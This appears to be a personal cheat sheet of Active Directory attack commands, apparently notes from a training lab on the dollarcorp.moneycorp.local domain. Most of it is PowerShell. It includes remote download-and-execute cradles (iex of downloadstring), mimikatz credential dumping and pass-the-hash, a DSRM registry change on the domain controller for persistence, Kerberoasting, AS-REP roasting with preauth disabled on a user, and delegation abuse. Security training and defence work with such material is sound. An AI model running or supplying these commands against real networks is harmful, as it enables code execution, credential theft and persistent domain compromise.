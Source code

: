 ## run remote scripts

```
$wr = [system.net.webrequest]::create('<uri>')
$r = $wr.getresponse()
iex ([system.io.streamreader]($r.getresponsestream())).readtoend()
```

```
iex (new-object net.webclient).downloadstring('<uri>')
iex (iwr '<uri>') // invoke-webrequest - iwr
``` 

## get computers in a domain

Powerview
```
get-netcomputer
get-netcomputer -fulldata
get-netcomputer -fulldata | where-object {$_.name -eq "dcorp-std41"}
get-netcomputer -fulldata -name "dcorp-std41"
get-netcomputer -operatingsystem "*server 2016*"
```

admodule
```
get-adcomputer -filter *
get-adcomputer -filter * | select dnshostname
get-adcomputer -identity "dcorp-std41" -properties *
```

## get groups

Powerview
```
get-netgroup
get-netgroup -domain <domain>
get-netgroup -fulldata
get-netgroup 'domain admins' -fulldata  | select member
get-netgroup "*admin*"
```

admodule
```
get-adgroup -identity 'domain admins'
get-adgroup -filter * -properties *
get-adgroup -filter 'name -like "*admin*"'
```

## get group members

Powerview
```
get-netgroupmember -groupname "domain admins"
```

## get GPO

Powerview
```
get-netgpo
get-netgpo | select displayname
get-netgpo -computername "<computer name>" | select displayname - this gives the GP applied on a particular computer
gpresult /r
get-netgrogroup - groups(which are pushed through group policy) that are part of a local group on a machine
find-gpocomputeradmin -computername <cname> - find users who are part(pushed by GP) of localgroups
find-gpolocation -username student35 -verbose - find machines where user is part(pushed by GP) of a local group
```

## ACL

Access token: contains the permissions of the process that is trying to access a domian object, i.e groups of the process owner, permissions of the process owner etc
SEcurity Descriptor: this is for the domain object - contains SID of the object owner, DACL (represents who have access to this obejct), SACL (audit policy of the object)

## persistence

### golden ticket, silver ticket

### Skeleton key

mimikatz as password

### DSRM password

```
invoke-mimikatz -command '"lsadump::lsa /patch"' -- on the DC -- this will give us the local administrator password
```

now we need to login into DC with this password, for this to work, we need to set a registry property =>

```
new-itemproperty "hklm:\system\currentcontrolset\control\lsa\" -name "dsrmadminlogonbehaviour" -value 2 -propertytype dword
```

if the property already exists, just set it to 2 => setting this HKLM properties might cause some alerts ? if not we should set up alerts for this

after doing this property setting, we need to login, (note the domain, thats how it should be)

```
invoke-mimikatz -command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:hash /run:powershell.exe"'
```

`ls \\dcorp-dc\c$` => we can access the FS as localadmin, but probably cant login with enter-pssession (as this tries to use kerberos auth and we're doing only local admin)

### persistence using ACL

## Kerberoast

- basically requesting for a TGS and cracking the TGS NTLM hash
- can't do this for usual machine accounts because their passwords are created by machines - which are very complex
- logs perspective - only 4769 - kerberos ticket requested
- so, here we're targeting user accounts which are being used as service accounts
- if the property 'ServicePrincipalName' is set on a user account - then its being used as service account
- as long as you have a valid user account, you can request a TGS - which is why you need an account to do impacket-getuserspns

finding out which users have the SPN param
```
Get-NetUser -SPN
get-aduser -filter {serviceprincipalname -ne "$null"} -properties serviceprincipalname
```

requesting a TGS
```
add-type -assemblyname system.identitymodel
new-object system.identitymodel.tokens.kerberosrequestorsecuritytoken -argumentlist "mssqlsvc/dcorp-mgmt.dollarcorp.moneycorp.local"

# this can be checked by doing klist - this is apparently saved in memory, can be saved to file using Mimikatz

invoke-mimikatz -command '"kerberos::list /export"'

# using powerview - we can directly use hashcat in this case
request-spnticket
```

setting SPN and do kerberoas
```
set-domainobject -identity <username> -set @{serviceprincipalname='zzzzz/whatever'}
```

## AS-REP Roast

- AS-REP roast -- 'Do not require Kerberos Pre Auth' - this means that user can request TGT without UN/PW - which means we can crack the TGT

get users with preauthnotrequired
```
# Powerview
get-domainuser -preauthnotrequired -verbose

Get-aduser -filter {doesnotrequirepreauth -eq $true} -properties doesnotrequirepreauth
```

disable preauth on a user - if you have that permission over an user
```
set-domainobject -identity <user> -xor @{useraccountcontrol=4194304} -verbose
```

invoke asreproast
```
# asreproast.ps1
get-asrephash -username <user> -verbose

invoke-asreproast -verbose
```

## unconstrained delegation

```
get-netcomputer -unconstrained
sekurlsa::tickets / invoke-mimikatz -command '"sekurlsa::tickets"' -- checks for any kerberos tickets that are saved in lsass
```

## constrained delegation

- trusted to auth for delegation on the account - TRUSTED_TO_AUTH_FOR_DELEGATION
- constrained delegation allows the service account to request for TGT / TGS on behalf of 'ANY' user

```
# powerview dev
get-domainuser -trustedtoauth
get-domaincomputer -trustedtoauth

# ad module
get-adobject -filter {msds-allowedtodelegateto -ne "$null"} -properties msds-allowedtodelegateto
```